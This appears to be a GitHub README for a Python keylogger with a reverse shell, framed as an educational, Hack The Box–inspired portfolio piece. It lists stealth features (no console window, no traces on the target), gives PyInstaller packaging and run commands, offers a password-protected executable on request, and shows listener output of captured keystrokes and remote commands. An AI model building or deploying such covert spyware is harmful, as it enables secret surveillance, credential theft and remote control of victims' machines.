 Stealthy Python Keylogger with Reverse Shell 🕵️‍♂️

Welcome to my Stealthy Python Keylogger project! 🎉 A cybersecurity tool built for educational purposes, showcasing skills from Hack The Box challenges and my Certified Penetration Testing Specialist (CPTS) certification. 
⚠️ Ethical Disclaimer: For educational use only in controlled environments (e.g., personal VMs). Unauthorized use is illegal and unethical. Use responsibly to learn cybersecurity.
Demo Video 🎥
Watch it in action: Demo Video (replace with your Google Drive link)
Features 🚀

🖥️ Silent Execution: No console window on Windows.
⌨️ System-Wide Keylogging: Captures all keystrokes (admin required).
🌐 Real-Time Logging: Instant keystroke transmission to Linux listener.
🛠️ Command Support: dir, whoami, get_logs, exit.
🕵️ No Local Logs: Zero traces on the target.
📝 Persistent Logging: Saves all data on the listener.
🔒 Packaged Executable: Password-protected keylogger.exe.

Files 📂

keylogger.py: Windows keylogger script.
listener.py: Linux listener script.
dist/keylogger.zip: Password-protected executable (contact for password).
keylogger_icon.png: Project icon.
.gitignore: Excludes build artifacts.

Installation 🔧
Windows VM
pip install keyboard pyinstaller

Linux VM
sudo apt install python3

Update LISTENER_IP in keylogger.py to your Linux VM IP (e.g., 192.168.65.130).
Packaging 📦
pyinstaller --onefile --noconsole keylogger.py

Output in dist/keylogger.zip (contact for password).
Usage 📚

Start listener:
```
python3 listener.py
```

Run keylogger:
```
.\dist\keylogger.exe 
```

Type in any app; logs appear on listener.
Send commands: whoami, dir, get_logs, exit.
```
Example Output 📈
Listener Console:
Listening on 0.0.0.0:4444...
Connection from ('192.168.65.133', 50499)
[*] Connected from Windows
KEYSTROKE: [2025-08-07 08:00:23] w
KEYSTROKE: [2025-08-07 08:00:24] h
KEYSTROKE: [2025-08-07 08:00:24] o
> dir
Sent command: dir
Volume in drive C has no label...
> whoami
Sent command: whoami
desktop-3ckfkt3\ajnur
> get_logs
Sent command: get_logs
[*] Logs:
LOG: [2025-08-07 08:00:23] w
LOG: [2025-08-07 08:00:24] h
LOG: [2025-08-07 08:00:24] o
> exit
Sent command: exit
Connection closed
```
Notes 📝

Admin Required: For Windows keylogging.
Dependencies: keyboard bundled in keylogger.exe.
Portfolio: Showcases networking and system programming skills.

Connect 🤝

LinkedIn: Ajnur Radovic
Email: ajnurradovic1@gmail.com

License 📜
MIT License

